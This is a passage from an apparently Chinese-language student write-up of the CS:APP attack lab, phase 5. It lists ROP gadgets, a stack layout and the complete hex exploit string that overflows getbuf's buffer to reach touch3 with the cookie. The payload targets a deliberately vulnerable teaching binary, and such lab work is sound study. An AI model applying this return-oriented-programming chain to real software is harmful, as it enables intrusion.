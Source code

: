 ```

gadget 6:    # 0x401a13
	movl    %ecx,%esi
# 以上,将偏移量传给%esi.我本来是要相减的,但突然想起来movl会将高位全部设置成0,行不通了,只能向上方偏移.

gadget 7:    # 0x4019d6
	lea    (%rdi,%rsi,1),%rax
	ret

gadget 8:    # 0x4019a2
	movq    %rax,%rdi
	ret
# 以上,将字符串指针传递给%rdi
 touch3 address:0x4018fa
```
覆写 `getbuf`函数的返回地址为gadget address 1,之上为gadget address 2,以此类推,
栈空间应该为

|栈空间|填充|备注|
|:---:|:---:|:---:|
|(launch函数栈帧)| |
|0x35 0x39...|cookie string|
|0x4018fa|touch3 address|
|0x4019a2|gadget address 8|
|0x4019d6|gadget address 7|
|0x401a13|gadget address 6|
|0x401a34|gadget address 5|
|0x4019dd|gadget address 4|
|0x48|0x48|偏移量
|0x4019ab|gadget address 3|
|0x4019a2|gadget address 2|执行gadget 1时的%rsp
|(test函数栈帧)||
|0x401a06|gadget address 1|
|(getbuff函数栈帧)||
|40字节buffer|任意填充字符|

根据以上设计,填充的字符串为
```
/* Phase5 */
ff ff ff ff ff ff ff ff ff ff                               
ff ff ff ff ff ff ff ff ff ff 
ff ff ff ff ff ff ff ff ff ff    
ff ff ff ff ff ff ff ff ff ff
/* 以上共40字节 */
06 1a 40 00 00 00 00 00 /* gadget address 1 */
a2 19 40 00 00 00 00 00 /* gadget address 2 */
ab 19 40 00 00 00 00 00 /* gadget address 3 */
48 00 00 00 00 00 00 00 /* 偏移量:8*9 */
dd 19 40 00 00 00 00 00 /* gadget address 4 */
34 1a 40 00 00 00 00 00 /* gadget address 5 */
13 1a 40 00 00 00 00 00 /* gadget address 6 */
d6 19 40 00 00 00 00 00 /* gadget address 7 */
a2 19 40 00 00 00 00 00 /* gadget address 8 */
fa 18 40 00 00 00 00 00 /* touch3 address */
```